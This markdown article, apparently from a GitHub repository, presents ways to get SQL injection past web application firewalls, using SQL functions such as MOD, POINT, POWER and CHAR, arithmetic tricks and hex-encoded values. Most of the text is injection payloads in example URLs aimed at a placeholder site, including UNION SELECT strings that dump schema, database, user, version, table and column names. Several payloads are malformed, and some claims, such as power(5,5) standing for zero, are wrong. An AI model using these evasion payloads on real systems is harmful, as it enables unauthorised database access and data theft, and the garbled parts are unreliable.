 ```yaml
---
title: Case study on SQL Injection WAF bypassing via SQL Functions
updated: 2021-09-05 13:55
---
```


## The traditional way using And 0

The ordinary usage of And 0 is easily detected by WAF and instantly triggers it, so it becomes impossible to use that query. The examples below describes the traditional way of using an false value in SQL Injection.

```sql
And 1=0
And false
And 0
And 1
And 50=60
Any number that are not the same will equal to (0, false, null)
```

## The alternative way of using And 0

The following methods are newly discovered queries which are supported by it’s respective SQL, as a new way of declaring false, null or 0 value(s).

1) Any **Mathematical/Arithmetic** or **Logical Problem** that equal to 0

```sql
And 1*0
And 1-1
And 0/1
```
For example:  
http://website.com/index.php?id=1’ and 1*0 order by 10--

2) Using **MOD()**

```sql
SELECT mod(10, 2);
```

The used mod() Function will output to 0

For example:  
http://website.com/index.php?id=1 and mod(29,9) Order by 10--

3) Using **POINT()**

```sql
SELECT point(29, 9);
```
For example:  
http://website.com/index.php?id=1 and point(29,9) Order by 10--

4) Using **POWER()**

```sql
SELECT power(5,5);
```
For example:  
http://website.com/index.php?id=1 and power(5,5) Order by 10--

## Illegal parameter data types

Error notification Illegal parameter data types INT and row for operation '=', is related to the data type of column included in the condition. The problem can occur because of many reasons.

1) For operation **MOD**
```sql
% = Modulo
```
For example:
http://website.com/index.php?id=1 % point(29,9) Order by 10--

2) For operation **&**
```sql
& = Bitwise And
&& = Logical And
```
For example:  
http://website.com/index.php?id=1 && point(29,9) Order by 10--

3) For operation **OR**
```sql
| = Bitwise OR
|| = Logical OR, sometimes use for Concatanation
```
For example:  
http://website.com/index.php?id=1 || point(29,9) Order by 10--

## The traditional way of using Null

The ordinary usage of Null is easily detected by WAF and instantly triggers it, so it becomes impossible to use that query. The examples below describes the traditional way of using an false value in SQL Injection.
```sql
Union Select null, null, null, null
```

## The alternative way of using Null

1) Using **0**
```sql
UNION SELECT 0,0,0,0
```
For example:  
http://website.com/index.php?id=1 div **0** Union Select **0**,**0**,**0**,**0** (SELECT+GROUP_CONCAT(schema_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.SCHEMATA),**0**,**0**--+"

2) Using **false**
```sql
UNION SELECT false,false,false,false
```
For example:  
http://website.com/index.php?id=1 div **false** Union Select **false**,**false**,**false**,**false**,SELECT+GROUP_CONCAT(schema_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.SCHEMATA),**false**--+

3) Using **char()**
```sql
UNION SELECT char(null),char(null),char(null),char(null)
UNION SELECT char(false),char(false,char(false),char(false)
UNION SELECT char(0),char(0),char(0),char(0)
UNION SELECT char(0x4e554c4c),char(0x4e554c4c),char(0x4e554c4c),char(0x4e554c4c)
```
For example:  
http://website.com/index.php?id=1 div **char(false)** Union Select "**char(false)** div **char(false)** Union Select **char(false)**,**char(false)**,**char(false)**,**char(false)**,concat(0x222f3e,0x3c62723e,0x3c62723e,'<br>','Database :: ',database(),0x3c62723e,'User ::',user(),0x3c62723e,'Version ::',version(),0x3c62723e,user(),make_set(6,@:=0x0a, (select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@),0x3c62723e),**char(false)**--+",**char(false)**,**char(false)**,**char(false)**,**char(false)**,**char(false)**--+

4) Using **Arithmetic** or **Logical Operator**
```sql
UNION SELECT (0*1337-0),(0*1337-0),(0*1337-0),(0*1337-0)
UNION SELECT 34=35,34=35,34=35,34=35
```
For example:  
```
http://website.com/index.php?id=1 div (0*1337-0) Union Select "(0*1337-0) div (0*1337-0) Union Select (0*1337-0),(0*1337-0),(0*1337-0),(0*1337-0),concat(0x222f3e,0x3c62723e,0x3c62723e,'<br>','Database ::',database(),0x3c62723e,'User :: ',user(),0x3c62723e,'Version ::',version(),0x3c62723e,user(),make_set(6,@:=0x0a, (select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@),0x3c62723e),(0*1337-0)--+",(0*1337-0),(0*1337-0), (0*1337-0),(0*1337-0),(0*1337-0)--+
```

## Bypassing Static Web Application Firewall with 0xHEX values

Since 0xHEX values are accepted and widely used in SQL Queries and Injection payloads, it is a great way to bypass static-based Firewalls. Using this technique, it is possible to avoid using words such as **NULL**, **false**, or ‘ (single quotes). Below are existing payload, but their respective values are converted to 0xHEX format.

```sql
SELECT CHAR(NULL); → SELECT CHAR(0x4e554c4c);
SELECT CHAR(0) → SELECT CHAR(0x30);
SELECT MOD(29, 9); → SELECT MOD(0x3239, 0x34);
SELECT POINT(29, 9); → SELECT POINT(0x3239, 0x39);
```
